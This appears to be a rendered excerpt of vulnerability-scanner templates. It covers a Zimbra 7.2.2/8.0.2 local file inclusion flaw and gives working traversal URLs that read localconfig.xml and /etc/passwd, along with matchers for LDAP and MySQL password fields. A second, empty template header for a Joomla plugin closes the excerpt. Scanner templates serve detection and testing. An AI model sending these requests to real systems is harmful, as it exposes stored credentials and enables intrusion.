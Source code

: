 **Type - status**

- status
  1. 200

---

# Zimbra Collaboration Server 7.2.2/8.0.2 Local File Inclusion

## Description

- A directory traversal vulnerability in /res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz in Zimbra 7.2.2 and 8.0.2 allows remote attackers to read arbitrary files via a .. (dot dot) in the skin parameter. This can be leveraged to execute arbitrary code by obtaining LDAP credentials and accessing the service/admin/soap API.
- severity - critical
- tags - zimbra,lfi,edb,cve,cve2013

## Requests

- Method - GET

### URL

- {{BaseURL}}/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../opt/zimbra/conf/localconfig.xml%00
- {{BaseURL}}/res/I18nMsg,AjxMsg,ZMsg,ZmMsg,AjxKeys,ZmKeys,ZdMsg,Ajx%20TemplateMsg.js.zgz?v=091214175450&skin=../../../../../../../../../etc/passwd%00

### Matchers

**Type - word**

- words
  1. zimbra_server_hostname
  2. zimbra_ldap_userdn
  3. zimbra_ldap_password
  4. ldap_postfix_password
  5. ldap_amavis_password
  6. ldap_nginx_password
  7. mysql_root_password
- condition - or

**Type - regex**

- regex
  1. root=.\*:0:0

---

# Joomla! Component com_communitypolls 1.5.2 - Local File Inclusion
